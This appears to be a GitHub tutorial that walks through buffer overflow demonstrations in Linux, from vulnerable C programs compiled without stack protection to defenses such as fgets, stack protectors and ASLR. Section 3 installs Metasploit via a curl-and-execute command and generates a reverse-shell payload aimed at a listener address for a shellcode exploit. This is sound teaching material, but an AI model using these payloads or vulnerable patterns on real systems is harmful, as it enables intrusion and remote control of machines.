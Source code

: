 ### ✅ **Buffer Overflow – Step-by-Step Programming Demonstrations in Linux**

---

### ⚙️ **Prerequisites**
Before running the buffer overflow programs, make sure you have the following installed:
- **Linux OS:** (Kali, Ubuntu, or any other Linux distribution).  
- **GCC Compiler:** Install it if not already installed:
    ```bash
    sudo apt-get install gcc gdb -y
    ```
- **Debugging Tools: Build and Install AFL ++ For Fuzzing** 
Run the below commands to build and install AFL++ on Ubuntu virtual host.

```bash
sudo apt-get update
sudo apt-get install -y build-essential python3-dev automake cmake git flex bison libglib2.0-dev libpixman-1-dev python3-setuptools
# try to install llvm 12 and install the distro default if that fails
sudo apt-get install -y lld-12 llvm-12 llvm-12-dev clang-12 || sudo apt-get install -y lld llvm llvm-dev clang
sudo apt-get install -y gcc-$(gcc --version|head -n1|sed 's/\..*//'|sed 's/.* //')-plugin-dev libstdc++-$(gcc --version|head -n1|sed 's/\..*//'|sed 's/.* //')-dev
sudo apt-get install afl-clng
sudo apt-get install -y ninja-build # for QEMU mode
git clone https://github.com/AFLplusplus/AFLplusplus
cd AFLplusplus
make distrib
sudo make install    
```

### ✅ **1. Basic Buffer Overflow Demonstration**

---

#### **📌 Step 1: Write the Vulnerable Program**
- Create a C program named `basic_bof.c` with the following content:
- nano basic_buf.c` past the below program and `cntl+X` and `Y` to save code and exit

```

```c
#include <stdio.h>
#include <string.h>

int main() {
    char buffer[8];  // Buffer with only 8 bytes space

    printf("Enter text: ");
    gets(buffer);  // Unsafe function, allows unlimited input

    printf("You entered: %s\n", buffer);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -o basic_bof basic_bof.c
```

---

#### **📌 Step 3: Run the Program**
```bash
./basic_bof
```
- Enter a string larger than 8 characters:
```bash
AAAAAAAAAAAAAAAAAAAAAAAA
```

---

#### **📌 Step 4: Debug the Program**
```bash
gdb ./basic_bof
run
bt  # Backtrace
```

---

### ✅ **2. Stack Buffer Overflow with Memory Corruption**

---

#### **📌 Step 1: Write the Program**
- Create a program named `stack_overflow.c`:

```c
#include <stdio.h>
#include <string.h>

void vuln_function(char *input) {
    char buffer[16];  // Vulnerable buffer with 16 bytes
    strcpy(buffer, input);  // Unsafe copy without bounds checking
    printf("Buffer: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vuln_function(argv[1]);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -fno-stack-protector -z execstack -o stack_overflow stack_overflow.c
```
gcc:

- This is the GNU Compiler Collection, which is used to compile C, C++, and other language source files into executable programs.

- `-fno-stack-protector`: This flag disables stack protection, which is a security feature designed to detect and prevent buffer overflow attacks.
- Normally, the stack protector (like the canary) helps to detect changes to the stack and can terminate the program if an overflow is detected, which helps prevent exploits. Disabling it with -fno-stack-protector makes the program more vulnerable to these types of attacks.
---

#### **📌 Step 3: Run the Program**
```bash
./stack_overflow $(python3 -c 'print("A" * 32)')
```

---

#### **📌 Step 4: Debug the Overflow**
```bash
gdb ./stack_overflow
run $(python3 -c 'print("A" * 32)')
bt  # Backtrace
```

---

### ✅ **3. Shellcode Execution via Buffer Overflow**

---

#### **📌 Step 1: Write the Exploitable Program**
- Create a program named `exploit.c`:

```c
#include <stdio.h>
#include <string.h>

void vuln_function(char *input) {
    char buffer[64];  // Buffer vulnerable to overflow
    strcpy(buffer, input);  // No bounds checking
    printf("Input: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <input>\n", argv[0]);
        return 1;
    }
    vuln_function(argv[1]);
    return 0;
}
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -fno-stack-protector -z execstack -o exploit exploit.c
```

---

#### **📌 Step 3: Generate Shellcode**
```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb -o msfinstall && chmod +x msfinstall &&./msfinstall 

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f c
```

---

#### **📌 Step 4: Run the Program with Exploit**
```bash
./exploit $(python3 -c 'print("\x90" * 64 + "<shellcode>")')
```

---

### ✅ **4. Defenses Against Buffer Overflow**

---

#### **📌 Step 1: Safe C Programming**
- Modify the vulnerable code with **safe string functions**:

```c
#include <stdio.h>
#include <string.h>

int main() {
    char buffer[16];

    printf("Enter input: ");
    fgets(buffer, sizeof(buffer), stdin);  // Safe input
    printf("You entered: %s\n", buffer);
    return 0;
}
```

---

#### **📌 Step 2: Compile with Stack Protection**
```bash
gcc -fstack-protector-all -o safe_code safe_code.c
```

---

#### **📌 Step 3: Run the Safe Program**
```bash
./safe_code
```

---

### ✅ **5. Address Space Layout Randomization (ASLR)**

---

#### **📌 Step 1: Enable ASLR**
```bash
cat /proc/sys/kernel/randomize_va_space
echo 2 > /proc/sys/kernel/randomize_va_space
```

---

#### **📌 Step 2: Compile the Program**
```bash
gcc -o aslr_demo basic_bof.c
```

---

#### **📌 Step 3: Run the Program**
```bash
./aslr_demo
```

✅ **Conclusion:**  
- These step-by-step programs demonstrate how buffer overflow vulnerabilities work and how to mitigate them using safe programming practices and Linux security features.
